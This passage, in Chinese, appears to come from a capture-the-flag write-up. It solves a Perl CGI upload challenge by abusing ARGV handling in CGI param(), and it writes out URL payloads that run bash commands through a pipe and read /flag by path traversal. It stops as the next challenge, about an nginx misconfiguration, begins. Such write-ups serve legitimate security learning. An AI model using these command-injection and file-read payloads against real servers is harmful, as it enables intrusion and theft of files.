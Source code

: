 这里我们尝试上传webshell文件，结果将文件的内容全部打印回页面，那么猜想后台应该用了param()函数。

> param()函数会返回一个列表的文件但是只有第一个文件会被放入到下面的接收变量中。如果我们传入一个ARGV的文件，那么Perl会将传入的参数作为文件名读出来。对正常的上传文件进行修改,可以达到读取任意文件的目的。

猜测的后台代码：

```php
use strict;
use warnings; 
use CGI;
my $cgi= CGI->new;
if ( $cgi->upload( 'file' ) ) { 
    my $file= $cgi->param( 'file' );
     while ( <$file> ) { print "$_"; }
}
```

#### 修改为ARGV：

**bp进行抓包，将上传的文件类型及文件内容处复制再粘贴一行，将filename去掉，然后内容填入ARGV**



#### 方法一：命令执行

url构造：`/cgi-bin/file.pl?/bin/bash%20-c%20ls${IFS}/|`

> 这里通过管道的方式，执行任意命令，然后将其输出结果用管道传输到读入流中，这样就可以保证获取到flag文件的位置了。这里用到了${IFS}来作命令分割，原理是会将结果变成bash -c "ls/"的等价形式

我们看到了flag就在根目录下

最后的payload：`cgi-bin/file.pl?/bin/bash%20-c%20cat${IFS}/flag`



#### 方法二：目录穿越

我们可以猜测flag在根目录下，构造目录穿越，这种方法任需要修改为ARGV。

```
/cgi-bin/file.pl?/flag
```

![img](https://img2018.cnblogs.com/i-beta/1740059/201911/1740059-20191128212258184-716245243.png)





### Web_php_wrong_nginx_config

#### 考点：文件包含、nginx、php后门、编写逆向脚本

这里我们需要查看robots.txt文件，我们可以看见robots.txt给出了两个页面hint.php 和 Hack.php

![在这里插入图片描述](https://img-blog.csdnimg.cn/20200804222306300.png)

我们分别进入看看，先看提示hint.php，在提示我们要去看看nginx的配置文件
